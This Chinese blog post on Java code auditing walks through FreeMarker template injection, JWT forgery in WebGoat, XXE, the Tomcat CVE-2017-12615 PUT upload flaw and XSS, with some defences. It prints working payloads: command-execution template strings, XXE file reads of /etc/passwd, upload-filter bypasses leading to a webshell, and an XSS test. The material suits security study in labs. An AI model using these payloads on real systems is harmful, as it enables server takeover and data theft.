

模板注入
FreeMarker模板注入
FreeMarker模板文件和HTML页面一样是静态页面，访问该页面的时候
FreeMarker引擎进行解析并动态的替换模板中的内容进行渲染，之后将渲染得到的结果发送到访问者的浏览器中
FreeMarker模板语言(FTL)的组成：
- 文本：原样输出
- 插值：这部分的输出会被模板引擎计算得到的值进行替换
FTL标签：与HTML标签类似，他们是给FreeMarker指示，而且不会打印在输出内容中- 注释：
利用方式：
内建函数的利用：
用法：
variable_name?method_name
new内建函数的利用：
查看freemarker.template.utility.Execute的源代码：
public class Execute implements TemplateMethodModel {
private static final int OUTPUT_BUFFER_SIZE = 1024;
public Execute() {
}
public Object exec(List arguments) throws TemplateModelException {
StringBuilder aOutputBuffer = new StringBuilder();
if (arguments.size() < 1) {
throw new TemplateModelException("Need an argument to execute");
} else {
String aExecute = (String)((String)arguments.get(0));
try {
Process exec = Runtime.getRuntime().exec(aExecute);
InputStream execOut = exec.getInputStream();
Throwable var6 = null;
try {
Reader execReader = new InputStreamReader(execOut);
char[] buffer = new char[1024];
for(int bytes_read = execReader.read(buffer); bytes_read > 0; bytes_read = execReader.read(buffer)) {
aOutputBuffer.append(buffer, 0, bytes_read);
}
} catch (Throwable var18) {
var6 = var18;
throw var18;
} finally {
if (execOut != null) {
if (var6 != null) {
try {
execOut.close();
} catch (Throwable var17) {
var6.addSuppressed(var17);
}
} else {
execOut.close();
}
}
}
} catch (IOException var20) {
throw new TemplateModelException(var20.getMessage());
}
return aOutputBuffer.toString();
}
}
}其中有一个exec方法其中使用了Process exec = Runtime.getRuntime().exec(aExecute);就可以进行命令执行
assign指令：主要是用于为该模板页面创建或者替换一个顶层变量
我们new一个freemarker.template.utility.Execute类使用其exec方法
payload:
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}同样阅读源码可以发现也有其他可以执行恶意代码的类
ObjectConstructor类
第一个参数是加载的类名，第二个参数为执行的命令
payload:
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()}JythonRuntime类payload:
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>Execute类见上面所述
这种方式所利用的类都是实现了TemplateModel接口
防御方法：
- 使用
Configuration.setNewBuiltinClassResolver(TemplateClassResolver)或者设置new_builtin_class_resovlver来限制对这个类的访问 - 使用解析器：
- UNRESTRICTED_RESOLVER：简单地调用
ClassUtil.forName(String)。 - SAFER_RESOLVER：和第一个类似，但禁止解析
ObjectConstructor，Execute和freemarker.template.utility.JythonRuntime。 - ALLOWS_NOTHING_RESOLVER：禁止解析任何类。
- UNRESTRICTED_RESOLVER：简单地调用
api内建函数的利用
使用条件: 配置项api_buidtin_enabled为true的时候才有效，在2.3.22版本之后默认为false
使用方法为：value?api.someJavaMethod()，相当于value.someJavaMethod()
可以利用getClassLoader来获取一个类加载器，进而加载恶意类，同样可以使用getResource来读取服务器上的资源文件(通过Class.getResource的返回值来访问URI对象。URI对象包含toURL和create方法，我们通过这两个方法创建任意URI，然后用toURL访问任意URL。)
payload:
//加载恶意类
<#assign classLoader=object?api.class.getClassLoader()>${classLoader.loadClass("our.desired.class")}
//使用getResource类
<#assign uri=object?api.class.getResource("/").toURI()>
<#assign input=uri?api.create("file:///etc/passwd").toURI().openConnection()>
<#assign is=input?apt.getInputStream()>
FILE:[<#list 0..99999999 as _>
<#assign byte=is.read()>
<#if byte == -1>
<#break>
</#if>
${byte}, </#list>]- OFCMS 1.1.2版本注入漏洞
JWT
WebGoat的搭建
webgoat/goatandwolf - Docker Image | Docker Hub
WebGoat/WebGoat: WebGoat is a deliberately insecure application (github.com)
JWT题解

题目要求修改token获得管理员权限，并且重置投票
点击Reset votes选型，并抓包分析

在白盒审计中查看对应的关键词路径votings
在@PostMapping('JWT/votings')中有一个返回值为AttackResult 的 resetVotes()方法

这个类是JWTVotesEndpoint 在org.owasp.webgoat.jwt包下
Jwt jwt = Jwts.parser().setSigningKey(JWT_PASSWORD).parse(accessToken)是为了将传来的accessToken通过JWT_PASSWORD(签名密钥)进行解析操作
Claims claims = (Claims) jwt.getBody()得到其body部分信息
boolean isAdmin = Boolean.valueOf((String) claims.get("admin"))取出其admin部分的值，如果为true则成功重置投票的进行

JWTPASSWORD是使用final修饰的静态常量，值为victory的base64编码，至于access_token从哪里来的呢，我们可以通过注解@CookieValue猜测是从Cookie传来的

可以发现Cookie是在login方法中被创建的

当用户为Guest的时候，他的access_token为空，而且发送请求之后其返回的lessonCompleted为false，其feedback返回为Not a valid JWT token, please try again
切换用户为Tome

其access_token不为空，但是其lessonCompleted仍然为false，其feedback返回为Only an admin user can reset the votes
我们同样可以很容易的发现access_token符合JWT的格式，拿进在线网站进行分析

可以发现基本信息都被解析出来了，我们将admin修改为true，并且其secret填入victory
将得到的JWT放入access_token字段，进行重发

成功伪造admin身份
XML外部实体注入
DTD部分是XXE攻击的关键：它是用于定义普通文本或者特殊字符的快捷方式的变量
实体分为
内部声明实体和引用外部实体, 内部声明实体的格式：<!ENTITY 实体名称 "实体的值"，引用外部实体的格式：<!ENTITY 实体名称 SYSTEM "URL/URI">或者是<!ENTITY 实体名称 PUBLIC "public_ID" "URI",在外部实体中，不同编程语言支持不同的协议，Java默认提供对http, https, ftp, file, jar, netdoc, mailto, gopher等协议的支持
在本地搭建百度OpenRASP的实例

//007-xxe.jsp
<%@ page contentType="text/html; charset=UTF-8" %>
<%@ page import="org.w3c.dom.*, javax.xml.parsers.*" %>
<%@ page import="org.xml.sax.InputSource" %>
<%@ page import="java.io.StringReader" %>
<%
String linux_querystring = "?data=%3C%3F%78%6D%6C%20%76%65%72%73%69%6F%6E%3D%22%31%2E%30%22%20%65%6E%63%6F%64%69%6E%67%3D%22%49%53%4F%2D%38%38%35%39%2D%31%22%3F%3E%3C%21%44%4F%43%54%59%50%45%20%66%6F%6F%20%5B%20%20%20%3C%21%45%4C%45%4D%45%4E%54%20%66%6F%6F%20%41%4E%59%20%3E%20%20%3C%21%45%4E%54%49%54%59%20%78%78%65%20%53%59%53%54%45%4D%20%22%66%69%6C%65%3A%2F%2F%2F%65%74%63%2F%70%61%73%73%77%64%22%20%3E%5D%3E%3C%66%6F%6F%3E%26%78%78%65%3B%3C%2F%66%6F%6F%3E";
String windows_querystring = "?data=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22ISO-8859-1%22%3F%3E%3C%21DOCTYPE%20foo%20%5B%20%20%20%3C%21ELEMENT%20foo%20ANY%20%3E%20%20%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fc%3A%2Fwindows%2Fwin.ini%22%20%3E%5D%3E%3Cfoo%3E%26xxe%3B%3C%2Ffoo%3E";
String data = request.getParameter("data");
String tmp = "";
if (data != null) {
try {
DocumentBuilderFactory docFactory = DocumentBuilderFactory.newInstance();
DocumentBuilder docBuilder = docFactory.newDocumentBuilder();
Document doc = docBuilder.parse(new InputSource(new StringReader(request.getParameter("data"))));
NodeList RegistrationNo = doc.getElementsByTagName("foo");
tmp = RegistrationNo.item(0).getFirstChild().getNodeValue();
} catch (Exception e) {
out.print("<pre>");
e.printStackTrace(response.getWriter());
out.print("</pre>");
}
}
%>
<html>
<head>
<meta charset="UTF-8"/>
<title>007 XXE 漏洞测试</title>
</head>
<body>
<h1>007 - 通过XXE读取系统文件</h1>
<p>不正常调用 - Linux (读取 /etc/passwd)</p>
<p>curl '<a href="<%=request.getRequestURL()+linux_querystring%>" target="_blank"><%=request.getRequestURL()+linux_querystring%></a>'</p>
<p>不正常调用 - Windows (读取 c:/windows/win.ini)</p>
<p>curl '<a href="<%=request.getRequestURL()+windows_querystring%>" target="_blank"><%=request.getRequestURL()+windows_querystring%></a>'</p>
<p>节点内容: <%= tmp %></p>
<p>(有漏洞会看到文件内容)</p>
</body>
</body>
</html>对其中的字符串windows_querystring进行url解码可以得到
from urllib.parse import unquote
tmp = "?data=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22ISO-8859-1%22%3F%3E%3C%21DOCTYPE%20foo%20%5B%20%20%20%3C%21ELEMENT%20foo%20ANY%20%3E%20%20%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fc%3A%2Fwindows%2Fwin.ini%22%20%3E%5D%3E%3Cfoo%3E%26xxe%3B%3C%2Ffoo%3E"
print(unquote(tmp))
# ?data=<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [ <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini" >]><foo>&xxe;</foo>漏洞成因就是因为使用了javax.xml.parsers.DocumentBuilder，但是并没有禁用外部实体
防御方式：
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
DocumentBuilder db = dbf.newDocumentBuilder();
Document document = db.parse(in);Dos攻击
<!--payload-->
安全配置错误
Tomcat任意文件写入(CVE-2017-12615)
影响范围
任意文件写入，主要影响的是Tomcat的7.0.0-7.0.81这几个版本
环境搭建
使用vulhub搭建CVE-2017-12615
修改docker-compose.yml中的端口，添加5005端口
version: '2'
services:
tomcat:
build: .
ports:
- "8080:8080"
- "5005:5005"启动环境并进入，修改tomcat/bin下的catalinna.sh文件
# 添加
JAVA_OPTS="$JAVA_OPTS -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5005" 然后重启tomcat ./startup.sh
复现
访问ip:8080
使用burp抓包，发现是一个GET请求
将其改为PUT方法写入一个txt文件
PUT /1.txt HTTP/1.1
..
..
ROBOTERH返回状态码为201， 说明上传成功了
写入一个jsp文件
PUT /2.jsp HTTP/1.1
..
..
<%out.print("ROBOTERH");%>
返回的状态码为404，说明被过滤了，通过PUT方式上传文件，不能上传jsp后缀的文件
绕过方法:
1.Windows下不允许文件以空格结尾以PUT /a001.jsp%20 HTTP/1.1上传到 Windows会被自动去掉末尾空格
2.Windows NTFS流PUT /a001.jsp::$DATA HTTP/1.1
3. /在文件名中是非法的，也会被去除（Linux/Windows）PUT /a001.jsp/ HTTP/1.1 测试:
在docker中的上传文件成功:
同样可以拿到webshell:
原理
由于配置不当,将配置文件conf/web.xml中的readonly设置为了false,导致可以使用PUT方法上传文件,并且执行代码,但限制了jsp后缀的上传
即当设置readonly为false的时候,我们可以通过PUT/DELETE进行文件操控
Tomcat在处理请求的时候有两个默认的Servlet, (DefaultServlet和JspServlet)
DefaultServlet:
JspServlet:
Mapping:

可以从Mapping中看出,JspServlet只处理后缀为.jsp, .jspx的请求,其他请求使用DafaultServlet处理
所以不能上传jsp文件,就是因为这个原因
实现一个Servlet需要继承HttpServlet, 查看HttpServlet中的doPut方法
protected void doPut(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
if (this.readOnly) {
this.sendNotAllowed(req, resp);
} else {
String path = this.getRelativePath(req);
WebResource resource = this.resources.getResource(path);
DefaultServlet.Range range = this.parseContentRange(req, resp);
if (range != null) {
Object resourceInputStream = null;
try {
if (range == IGNORE) {
resourceInputStream = req.getInputStream();
} else {
File contentFile = this.executePartialPut(req, range, path);
resourceInputStream = new FileInputStream(contentFile);
}
if (this.resources.write(path, (InputStream)resourceInputStream, true)) {
if (resource.exists()) {
resp.setStatus(204);
} else {
resp.setStatus(201);
}
} else {
resp.sendError(409);
}
} finally {
if (resourceInputStream != null) {
try {
((InputStream)resourceInputStream).close();
} catch (IOException var13) {
}
}
}
}
}
}其中上传文件成功的时候返回的状态码是201,可以定位于if语句
其上面的path就是PUT请求后面接的URI
进入source.write方法:
进入main.write方法:
进入file方法:
file对象在实例化的过程中会处理掉最后的/和多余的/, 之后就可以达到上传的目的
XSS
审计策略
- 收集输入点, 输出点
- 查看输入, 输出点的上下文环境
- 判断是否对输入, 输出做出过滤和防御
反射型XSS
实例:
这个JSP代码会将GET传参的变量input输出到前端中
而且并没有过input参数进行任何过滤操作
正常:
不正常: ?input=<script>alert(1)</script>
存储型XSS
挖掘方式:
- 黑白盒结合
- 通过功能点判断
输入点
漏洞点在网站设置-基本信息-网站标题位置，我们输入XSS-payload，点击提交：
如果访问该网站，就会触发
通过抓包
明白是在/api/admin/website/update将危险payload写入了数据库中，所以每次访问网站的时候都会被XSS攻击一次
审计代码
在WEB-INF/web.xml中
其访问控制是使用com.zrlog.web.config.ZrLogConfig进行访问控制
可以查看到路由信息
跟进AdminRoutes
发现对应路由的源码位于WebSiteController类中
我们可以明白，update方法，将HTTP传送来的数据保存在requestMap对象中，然后通过WebSite的updateByKV方法与数据库进行交互更新，跟进WebSite
很明显，并没有做出任何的过滤操作就进行update操作了
我们再次查看网站标题输出的代码(jsp)
同样没有做出任何的过滤
DOM型XSS
通过访问
DOM常见的输入，输出点：


- Post link: https://roboterh.github.io/2022/01/17/Java%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1-%E4%BA%8C/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.